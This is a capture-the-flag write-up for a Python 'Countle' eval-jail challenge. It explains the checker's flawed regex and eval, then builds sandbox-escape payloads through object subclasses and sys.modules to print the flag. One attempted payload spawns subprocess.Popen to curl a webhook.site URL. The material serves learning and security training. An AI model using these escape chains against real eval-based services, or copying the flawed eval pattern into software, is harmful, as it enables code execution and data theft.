 ## Challenge

> The Countle World Championships is coming! Time to step up your game and start training! It's just a measly 1,000,000 puzzles a day, anyone can do it.
> 
> nc challs.nusgreyhats.org 33401

## Solution

Upon connecting netcat to the server, we see a mathematical problem where, given one target number and a bunch of numbers, we are supposed to put the correct mathematical operations and brackets such that the result is equal to the target. Woah, perhaps I will need to write a script to solve all these puzzles to get the flag. But first, shall we appreciate the logic of how the programme checks the solution, yea?

```py
def checkAnswer(expr, target):
    result = eval(expr, {'FLAG':"no flag for you", "__builtins__": None})
    return result == target
```

Wow, what a genius way to check the answer! So, I tried keying in the target itself, but could not. Turns out,

```py
        for _ in BLACKLIST + [str(t)]:
            if _ in expr:
                return (print(format("~RBlacklisted word is not allowed: "+_+"~E")))
```

Ah yes, the target `t` itself is blacklisted, so I can't just key in the target to get the answer correct. But I can key in a sum of two numbers, eg if the target is `819`, I can key in `818 + 1`.

Alright, cool, but where is the flag being exposed?

```py
        if (_ == 2): 
            print(format(" ~GCongrats!! Here is your flag:\n   " + FLAG + "~E"))
```

Where `_` is the loop variable. So that means, I just need to solve 3 puzzles, and I should get the flag. Right? Not really! After solving 5 puzzles, the flag is still not there ...

That is when I realised, the value of `_` can never be `2`! Because of the blacklist check, if we are to pass the check, the value of `_` is always reassigned to `str(t)`! A string can never equate a number in Python. So, perhaps I need to somehow read this file in remote and send to my webhook.

Notice that in `checkAnswer` the `eval` is run with context `"__builtins__": None`. Which means: we can't access any built-in property or function in Python. So, the first idea that came to mind was to mimic Jinja-style syntax. Something like:

```py
''.__class__.__mro__[1].__subclasses__()[40]
```

I tried keying that in, but received: `That is not a valid expression. Read 'Help' for more info.` Where did that come from?

```py
        if (not match(r"[0-9+\-*/()]+", expr)):
            return (print(format("~RThat is not a valid expression. Read 'Help' for more info.~E")))
```

Ohh, my expression did not pass the regex! Looking at the regex, doesn't that mean that I can only key in numbers, math operations and brackets? Hrmmm, that means I can only key in mathematical expressions? That sux.

Wait, but how did my `818 + 1` expression manage to pass just now? That is interesting ...

Reading up the docs of `match` in Python, we see the following:

> The match() function is used for a pattern at the start of a given string

Ohh, it only checks the start! So I can simply wrap my expression around round brackets! It will still pass the regex check, and I can evaluate random code.

```py
(''.__class__.__mro__[1].__subclasses__())
```

You know, the difference between this challenge and regular Jinja challenge is that, I only see if the expression evaluates to a correct value, it does not give me any feedback of what the expression actually evaluates to. So, in regular Jinja challenges, the above expression will show me all the subclasses of `object` that I can choose from, then I can select the correct index of `subprocess.Popen`. Here it does not.

But, we can apply a filter to choose `subprocess.Popen`! The following should filter in the class. I can then instantiate the class with `curl` command to my webhook.

```py
([a for a in ''.__class__.__mro__[1].__subclasses__() if 'oPen'.lower() in a.__name__][0](['curl', 'https://webhook.site/928039f6-43f5-49f2-8b28-b6d4ee9295ee']))
```

> What are you doing with so many characters? Read 'Help' for more info.

Oops, what was I doing! That is evil. Let's try to shorten the expression a bit.

```py
([a for a in ''.__class__.mro()[1].__subclasses__() if 'sub' in a.__module__][0](['curl', 'https://webhook.site/928039f6-43f5-49f2-8b28-b6d4ee9295ee']))
```

Uhh, something went wrong. After a bit of debugging, turns out, the `subprocess.Popen` class is not available in the server! Well, after all, that was a wrong approach. I will need to append a GET param to obtain the content of the server file too, which I don't know how, and it will take way many more characters to do.

That was when I think, well I will need to reassign `_` to `2` so that the server will show me the flag. But eval does not allow multi-line code! For eg, the following won't work:

```py
a = 2; 819
```

After looking online for a while, I found out that, within an expression fed to eval, I can reassign a variable too! Using walrus operator.

```py
(_ := 2) + 816
```

But the above won't work yet! Because `_` declared in this expression will only be defined within `checkAnswer` function, not in `challenge` function. So, I need to somehow assign `_` under global scope, so that `challenge` will also receive the same value.

But, note that `__globals__` is not even accessible! Because of the context `"__builtins__": None`. Turns out, there is a way to access `__globals__`, by just accessing it from any function declaration. Something like `challenge.__globals__`! Okay, so here is an expression that can solve the challenge:

```py
(challenge.__globals__['_'] := 2) + 816
```

Oops, not yet! Because the walrus operator only allows assignment to a variable, not a key of a dictionary! So we will then have to try printing the flag. Something like:

```py
print(challenge.__globals__['FLAG'])
```

But `print` is already erased, and any attempt to access `__builtins__['print']`, even from `__globals__`, is not successful. Actually, ChatGPT says otherwise!

```py
[a for a in ''.__class__.mro()[1].__subclasses__() if 'WarningMessage' in a.__name__][0].__init__.__globals__['sys'].modules['builtins'].print
```

That is the `print` function! In a similar way, we can access the `FLAG` variable too.

```py
[a for a in ''.__class__.mro()[1].__subclasses__() if 'WarningMessage' in a.__name__][0].__init__.__globals__['sys'].modules['__main__'].FLAG
```

And now we can use the walrus operator to abstract out the common part of these two!

```py
(m := [a for a in ''.__class__.mro()[1].__subclasses__() if 'WarningMessage' in a.__name__][0].__init__.__globals__['sys'].modules)['builtins'].print(m['__main__'].FLAG)
```

That is a little bit higher than 160 characters. So we just need to cut down on the `'WarningMessage'` part, but choosing the precise characters so as to choose the correct class. And that is `Wa`. So, the final payload is:

```py
(m := [a for a in ''.__class__.mro()[1].__subclasses__() if 'Wa' in a.__name__][0].__init__.__globals__['sys'].modules)['builtins'].print(m['__main__'].FLAG)
```
